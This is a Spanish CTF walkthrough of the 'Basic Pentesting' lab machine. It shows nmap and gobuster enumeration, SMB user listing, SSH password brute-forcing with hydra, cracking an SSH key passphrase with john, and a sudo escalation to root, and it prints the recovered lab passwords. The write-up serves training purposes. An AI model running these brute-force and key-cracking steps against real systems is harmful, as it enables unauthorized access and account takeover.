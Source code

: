 In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

Empezamos con un scan a todos los puertos:

``` bash
sudo nmap -p- -Pn --min-rate 5000 10.10.32.85
```

``` bash
Nmap scan report for 10.10.32.85
Host is up (0.051s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

obtenemos varios puertos abiertos, escaneamos cada puerto para que nmap nos de las versiones de los servicios y haga scripts por defecto para enumerar los servicios:

1. **Find the services exposed by the machine:** 

``` bash
sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.32.85
```

``` shell
Nmap scan report for 10.10.32.85
Host is up (0.048s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2024-05-12T12:02:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-05-12T16:02:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s

```

enumeramos el servicio http para la primera respuesta de la maquina:

2. **What is the name of the hidden directory on the web server(enter name without /)?**

usaremos gobuster  para enumerar los directorios web:

``` bash
gobuster dir -u 10.10.32.85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster-basicpentesting.png](assets/gobuster-basicpentesting.png)

la respuesta es: **development**


en el directorio development encontraremos un idexado de archivos 

![IndexDirBasicPents.png](assets/IndexDirBasicPents.png)

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Aqui podemos deducir que hay dos ususarios, por ahora J y K y que J tiene una paswor debil, por lo que vamos a usar fuerza bruta en el servicio ssh con hydra.

**User brute-forcing to find the username & password**

**What is the username?**

Enumeraremos el servicio SAMBA con enum4linux:

``` bash
enum4linux <IP-TARGET>
```

y obtenemos el domain name:
``` bash
Domain Name: WORKGROUP
```

y los usuarios :
``` bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

a acontinucion usamos hydra para hacer fuerza bruta con el ussuario Jan en el servicio ssh ya que en el mensaje que encontramos en el directorio development sabemos que tien una pass debil.

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.32.85
```

y tras un largo cafe obtenemos la password
![passBasicPents.png](assets/passBasicPents.png)
 la respuesta es: **armando**


Entramos al servicio ssh como jan y tras recorrer las capretas de ususario entramos a la carpeta de kay y vemos esto

![dirKayBPENTS.png](assets/dirKayBPENTS.png)

entramos en la carpeta .ssh y vemos el id_rsa de kay

![is_rsaBSPENTS.png](assets/is_rsaBSPENTS.png)

asi que suaremos la herramienta john para obtener la contraseña del id_rsa, primero nos creamos un archivo pegando todo el id_rsa y con ssh2john hasheamos el id_rsa.

``` bash
nano kay_id_rsa
# copiamos dentro del nano el texto del id_rsa
ssh2john kay_id_rsa > hashjohn.txt
# despues usamos john para crackear la contraseña
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashjohn.txt
```

![kayHash.png](assets/kayHash.png)

y obtenemos la contraseña: **beeswax**

entramos al ssh de kay usando su id_rsa:

![sshKay.png](assets/sshKay.png)

nos vamos al home de kay y leemos el archivo pass.bak, con esto obtenemos la ultima pregunta :
**What is the final password you obtain?**

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
```

con esto ya estaria la maquina hecho pero vamos a hacernos root, con el ususario de kay hacemos un sudo -l para ver los permisos sudo que tenemos, ponemos la contraseña anteriormente encontrada y obtenemos esto

![PrivKay.png](assets/PrivKay.png)

tenemos permisos para todo, así que para ser ususario root lo tenemos que hacer el cambio de ususario :

```
sudo -su root
```

y obtenemos root:
![kayRoot.png](assets/kayRoot.png)

y ya estaría la maquina completamente vulnerada.

